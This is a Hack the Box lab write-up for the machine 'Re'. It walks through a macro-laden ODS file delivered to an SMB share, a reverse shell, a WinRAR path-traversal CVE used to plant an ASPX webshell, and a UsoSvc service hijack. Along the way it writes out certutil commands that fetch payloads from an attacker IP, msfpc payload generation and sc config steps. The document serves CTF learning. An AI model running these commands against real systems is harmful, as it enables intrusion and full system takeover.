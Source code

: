 +++
author = "Nick"
categories = ["hack the box", "ods", "odt", "macro", "reverse shell", "meterpeter", "smbclient", "msfpc", "evil-WinRAR", "certutil", "usosvc", "zip slip"]
date = 2020-02-01T11:00:00Z
description = ""
draft = false
thumbnail = "/images/2019/12/re.png"
slug = "hack-the-box-re"
summary = "Welcome back! Today we will be doing the machine 'Re' over on Hack the Box. Let's jump in!"
tags = ["hack the box", "ods", "odt", "macro", "reverse shell", "meterpeter", "smbclient", "msfpc", "evil-WinRAR", "certutil", "usosvc", "zip slip"]
title = "Hack the Box - Re"
url = "/hack-the-box-re"

+++


Welcome back! Today we will be doing the machine 'Re' over on Hack the Box. Let's jump in!

We start with our normal ```nmap``` scan: ```nmap -sC -sV -oA re_initial 10.10.10.144```. We get back a small listing of results:

```
Nmap scan report for 10.10.10.144
Host is up (0.053s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Visit reblog.htb
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 48s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-10-22T19:52:12
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.32 seconds
```

We see there is a hostname leaked to us on port 80. We'll add that to our host lists. The port amount are fairly limited so we'll repeat the scan but against all ports. Meanwhile, we'll visit port 80 and see what is being hosted.

When we get to the site, we are immediatly redirected to reblog.htb. When we start to investigate the site we see it's a standard blog. We see that re.htb is listed on the bottom so we'll add that to our host file as well. Each posting is listed by date. So we'll start to enumerate this by year in addition to our normal enumeration process. 

We start with enumerating the year:
```gobuster dir -u http://reblog.htb -w /usr/share/wordlists/SecLists/Fuzzing/4-digits-0000-9999.txt```
We only got back 2019 as a directory. 

Next we'll enumerate the month:
```gobuster dir -u http://reblog.htb/2019/ -w ~/Documents/htb/re/0-99.txt```
Only 03 and 04 are months with entries.

Now the days of each month:
03 contained 4 total entries: 10, 15, 20, 31.
04 contained 2 total entries: 10, 4.

Now we could have done that entire process with ```wfuzz``` or a single listing with recurssion, but I'll leave that up to you :). The above match the amount of posts entered so there was no hidden posts. In addition to this we'll also do a standard enumeration pass with a common directories list:
```gobuster dir -u http://reblog.htb/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 40```.
We see one additional directory called ```assets``` but nothing further. We might need to come back and run a second pass. While we read through the blog we also gain three usernames - Coby, Kenny and Malware. Maybe we can use these usernames to null past the SMB login.

We will try to use ```smbmap``` to take a peek:
```smbmap -u kenny -p 'null' -H 10.10.10.144```

We get back one location.

![](/images/2019/10/image-93.png)

When we connect to the location we see there is nothing there. We can however upload files to the location but they are removed / deleted shortly after. Now the first post on the reblog talks about ods Phishing Attempts. That there are rules in place to analyze phishing files that we put to in the malware drop box. We might want to try uploading a hidden payload into an [ODS file](https://fileinfo.com/extension/ods) (Open Office Document Spreadsheet) and upload it to the dropbox.

We will create a payload using ```Metasploit```. There is a ncie little blog post over on Rapid 7's blog on this topic. You can find it [here](https://blog.rapid7.com/2017/03/08/attacking-microsoft-office-openoffice-with-metasploit-macro-exploits/).

![](/images/2019/10/image-94.png)

After we've crafted the payload and upload it to the share, we don't seem to get any connection back. Now we know from reading the blog post that the yara rules will detect any 'run of the mill' things. I would consider a pre-made MSF payload to be pretty run of the mill. So we can craft our own payload. 

The idea is to use the above created .ods file and enter our own shell code inside it. We know it's a Windows machine so it won't have netcat on it, so we'll need to get it. We need a way to download netcat onto the machine. Then we need to have the payload execute our commands.

So first we'll changed the .ods extension to a .zip and extract the contents. We then dig into the directory created to get to the file called Module1.xml: ```/msf/Basic/Standard/Module1.xml```. We then need to modify the ```Sub OnLoad``` function to execute our code rather than the Metasploit code.

![](/images/2019/10/image-95.png)

We then upload the file to the malware share and wait..

![](/images/2019/11/image-63.png)

Our listener lights up and we have a shell! We snag our user flag from Luke's Desktop and start to enumerate internally. In the Luke's Downloads folder we see a few installers:

![](/images/2019/12/image.png)

What immediately stands out is WinRar. [This CVE](https://nvd.nist.gov/vuln/detail/CVE-2018-20250) came to mind almost immediately since I've seen it in the past. If you've not seen it before some quick googling of 'CVE + WinRar' would turn up this result as well. Since we already know this has a high likleyhood of being our next entry point, we can jump over to [Evil-WinRAR](https://github.com/manulqwerty/Evil-WinRAR-Gen). The trick here is to get the file to execute as our admin. Some basic internal enumeration shows us that we have ```IIS``` installed. We can combine that with the knowledge of the ```proj_drop``` folder to get us an executable location. With this knowledge we can craft a webshell payload and leverage that to pivot.

First we have to craft our payload. We'll use ```MSFPC``` or the traditional ```MSFVenom``` whichever you'd like.

```msfpc aspx tun0 4444```

![](/images/2019/12/mfspc.gif)

We then need to add this payload to a zip file with a traveral path.

```zip rf.zip ../../../../../../../../inetpub/wwwroot/blog/rf.aspx```
You'll need to create the path locally as well.

We're going assume that the site name is blog in this scenario and attempt to have the page extracted there.

Once we've created our zip we can use ```Evil-WinRAR``` to 'weaponize' it.

```python3 evilWinRAR.py -e rf.zip -g rf.txt -p 'c:\proj_drop\' -o rf.rar```

Once we've created our malicous payload we can download it with ```certutil.exe``` like before.

```certutil.exe -urlcache -split -f "http://10.10.15.177/rf.rar" C:\Users\luke\Documents\ods\rf.rar```

![](/images/2019/12/payloadup.gif)

Once we upload it we wait for our session to come back. The blog does note that it is restarted every 4 minutes if it doesn't seem to be working. Once our session lights up we have a shell as ISUR. We get our shell and see if we can snag some tokens with ```incognito```.

![](/images/2019/12/image-1.png" caption=")

We don't seem to have any that we can take. But our enumeration shows that we have ```Sysinternals``` installed. We can use ```accesschk``` to see what permissions we might have. We see that ```SERVICE``` has access to ```UsoSvc```.

![](/images/2019/12/image-2.png)

And we know that [UsoSvc is exploitable](https://www.atredis.com/blog/cve-2018-0952-privilege-escalation-vulnerability-in-windows-standard-collector-service). We can create a standard .exe MSF payload and upload it to a directory, then change our path for UsoSvc to it. We then restart the service and should get a shell back as system.

Create our payload:
```msfpc windows tun0 4444```

Upload our payload:
```certutil.exe -urlcache -split -f "http://10.10.15.177/foobar.exe" C:\temp\foobar.exe```

Change our Executable Path:
```sc config usosvc binPath="C:\temp\foobar.exe"```

Restart our service:
```sc stop usosvc```
```sc start usosvc```

We then see our new session light up as system!

![](/images/2019/12/image-4.png)

We head to the Administrator desktop and grab our root flag!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

